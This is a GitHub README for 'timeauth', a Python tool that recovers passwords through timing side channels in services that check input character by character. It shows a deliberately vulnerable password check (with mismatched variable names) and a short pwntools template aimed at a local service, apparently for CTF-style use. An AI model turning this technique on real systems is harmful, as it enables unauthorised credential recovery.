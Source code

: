 # Time Authentication Attack Tool (ported for Windows)

Python Time Based Authentication Attack Tool

## Development

You can contribute by sending merge requests and/or issues on this github opensource project.

## Demo:

[![asciicast](https://asciinema.org/a/126628.png)](https://asciinema.org/a/126628)

## Usage:

### Installation

You can install this package by launching:

```sh
> git clone git@github.com:SakiiR/timeauth.git
[...]
> pip install ./timeauth/
> # Done
```

### Examples

Suppose that we have a listenning tcp service on `localhost:1337` waiting for a password input. 
What if the code behind this TCP service have been done by a weird developer and checks your input char by char
and sleeping each time it checks your char ( or do a BIG action on his server that take some time ).

```sh
> nc localhost 1337
Hello !
password please: SakiiR
Bad Password ! BYE BYE
[!] Closed connection ..
```

And the following backend password verification:

```py
def check_password(input, real):
    if(len(input_flag) == 0):
            return False
        for left, right in zip_longest(input_flag, flag):
            if(left != right):
                return False
            sleep(0.25) # prevent brute forcing
        return True
```

This package has been made to make exploitation of this kind of service faster by implementating a Single Class.

exemple:

```py
from pwn import remote, context
from timeauth import TimeAuthChecker


class ExampleChecker(TimeAuthChecker):

    def __init__(self):
        super(self.__class__, self).__init__(
            charset="0123456789",
            token_length=10,
            hidden_char="*"
        )

    def request(self):

        context.log_level = 'error'
        s = remote('localhost', 1337)
        s.recvuntil(':')
        s.sendline(self.get_token())
        s.readall()
        s.close()
        context.log_level = 'info'

if __name__ == "__main__":
    a = ExampleChecker()
    a.process()
    a.print_token()
```
### Todo

* Add a Time Based SQL Injection Module
* Add a Blind SQL Injection Module

